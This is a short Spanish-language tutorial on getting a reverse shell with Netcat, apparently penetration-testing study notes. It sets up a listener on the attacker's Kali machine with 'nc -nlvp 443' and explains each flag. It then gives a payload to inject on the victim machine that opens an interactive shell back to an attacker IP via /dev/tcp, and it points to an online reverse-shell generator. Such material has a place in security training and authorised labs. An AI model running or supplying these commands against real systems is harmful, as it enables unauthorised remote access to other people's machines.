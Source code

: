 # Netcat para entablar Reverse Shell

¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re

<aside>
💡

https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

</aside>

![image.png](./imagenes/image.png)

Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

**`nc -nlvp 443`**

<aside>
💡

**`nc`**: Invoca **la herramienta** Netcat.

**`-n`**: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.

`-**l**`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.

`-**v**`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.

`-**p 443**`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).

</aside>

![image.png](./imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png)

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator. 

`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

![image.png](./imagenes/image%201.png)

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

![image.png](./imagenes/image%202.png)

![image.png](./imagenes/image%203.png)
